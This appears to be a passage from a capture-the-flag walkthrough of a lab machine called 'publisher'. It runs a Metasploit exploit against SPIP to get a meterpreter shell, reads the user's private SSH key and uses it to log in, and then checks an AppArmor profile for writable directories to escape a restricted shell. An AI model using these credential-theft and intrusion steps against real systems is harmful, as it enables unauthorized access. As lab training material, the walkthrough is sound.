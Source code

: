 ![acbeb90da8f29ce16e0e47b786aa6df1.png](/resources/9308d5c5eb524971a1cc89ca90a89837.png)

After configuring the exploit, we can use the `run` command and after a few seconds we should get a meterpreter shell:

![85919d788252b18de78cec45803a58f0.png](/resources/44e664d0ced3413389f4f00d60071c97.png)

### \[-] think\@publisher

Currently we are in the `/home/think/spip/spip` directory. We will need to change our directory to `/home/think/` to find the flag and the SSH key:

```sh
cd /home/think/
ls -lah
cat user.txt
cat .ssh/id_rsa
```

![7877d2a9e7c0dfadf30e821471d9cf33.png](/resources/c89828341b3e4952944c09ee6f63fd4b.png)

![83d604741e797292984b27e0ab9ed95e.png](/resources/21f644856c3c45adbbca0681450e8e63.png)

Copy and paste the SSH key into a text file named "`think.key`" on the attacking machine then use `chmod` to give the key proper permissions before connecting as the user `think`:

```sh
chmod 600 think.key
ssh -i think.key think@$RHOSTS
```

Checking the `/etc/passwd` file shows our current user "`think`" is not in a regular bash shell:

![b53bf5db54e2b8ac3e1dce0a1da6b1cb.png](/resources/4939cc596b4e426fbbfda12dd76eea88.png)

If we try to write to directories that we have write access to (i.e. `/tmp` or `/home/think/`), we will find that we are currently unable to do so. Let's check to see if [AppArmor](https://apparmor.net/) has been configured by checking the `/etc/apparmor.d/` directory for configuration profiles, where we will find a profile for the `ash` shell that we are currently in:

```sh
ls -lah /etc/apparmor.d/
```

![62bd098e75785421c54313eab6f1e0ef.png](/resources/da491e1f8ab6483fba0d732fad618132.png)

Checking the profile shows two directories that have not been properly configured. The other directories that end in `/**` deny write access to the entire directory because of the `*` wildcard character and the `/` means everything inside the directory.

The directories, `/dev/shm` and `/var/tmp` do not end in `/**`, so the directory is still writeable:

```sh
cat /etc/apparmor.d/usr.sbin.ash
```
